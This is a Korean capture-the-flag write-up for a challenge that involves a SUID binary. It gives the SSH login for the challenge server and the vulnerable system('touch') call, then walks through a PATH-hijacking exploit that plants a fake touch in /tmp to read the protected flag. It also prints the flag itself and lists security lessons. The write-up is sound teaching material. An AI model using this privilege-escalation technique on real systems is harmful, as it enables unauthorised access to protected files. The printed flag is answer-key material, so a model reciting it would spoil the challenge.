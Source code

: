 # 문제 29 - Command Injection 기반 권한상승 Challenge Solution

## 문제 설명
SSH를 통해 question29 계정으로 접속한 후, command injection 취약점을 이용하여 권한을 상승시키고 플래그를 찾는 문제입니다.

## 풀이 과정
1. SSH 접속
   - 호스트: ip.firewall-flame.kro.kr
   - 포트: 2226
   - 계정: question29
   - 비밀번호: question29pass

2. 코드 분석
   - question29 파일을 분석하면 다음과 같은 취약점을 발견할 수 있습니다:
   ```c
   sprintf(command, "touch %d", pid);
   system(command);
   ```
   - system() 함수가 'touch' 명령어를 실행할 때 PATH를 검색하는 취약점이 있습니다

3. 권한 상승 실행
   ```bash
   # PATH 인젝션을 위한 디렉토리 생성
   mkdir /tmp/ax
   
   # 가짜 touch 명령어 생성
   echo "cat /home/Challenge29/question29flag/flag.txt" > /tmp/ax/touch
   
   # 실행 권한 부여
   chmod 777 /tmp/ax/touch
   
   # PATH 환경변수 수정하여 실행
   PATH=/tmp/ax:$PATH ./question29
   ```

4. 취약점 설명
   - 프로그램이 절대 경로 없이 'touch' 명령어를 실행함
   - PATH 환경변수를 조작하여 악성 touch 명령어를 실행할 수 있음
   - 프로그램의 SUID 권한으로 인해 flag 파일을 읽을 수 있음

## 사용된 기술
- PATH 환경변수 조작
- Command Injection
- SUID 권한을 이용한 권한 상승
- 시스템 함수 취약점 이용

## 보안 교훈
1. system() 함수 사용 시 명령어의 전체 경로를 지정해야 합니다
2. 환경변수 조작 가능성을 고려해야 합니다
3. SUID 프로그램 작성 시 특별한 주의가 필요합니다
4. 외부 명령어 실행 시 안전한 방법을 사용해야 합니다

## 최종 플래그
```
flag{4368616c6c656e6765666c6167}